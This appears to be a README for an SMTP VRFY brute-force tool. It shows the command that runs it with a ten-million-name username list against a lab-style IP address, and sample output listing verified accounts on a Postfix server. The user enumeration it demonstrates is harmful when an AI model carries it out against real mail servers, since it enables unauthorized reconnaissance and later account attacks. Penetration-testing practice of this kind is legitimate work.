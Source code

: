 # SMTP-VRFY-Bruteforce
Bruteforce a user list against SMPT using VRFY


python smtp_vrfy_brute.py 10.129.80.226 xato-net-10-million-usernames.txt

Lines remaining in user list: 8295455
Connecting to: 10.129.80.226
Connect response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: michael 
+ Users verified: michael
23 | VRFY james           

* Connection Lost - Reconnecting
Lines remaining in user list: 8295432
Connecting to: 10.129.80.226
Connect response: 220 debian.localdomain ESMTP Postfix (Debian/GNU)

+ Verified user: mail    
+ Users verified: michael, mail
46 | VRFY joseph          
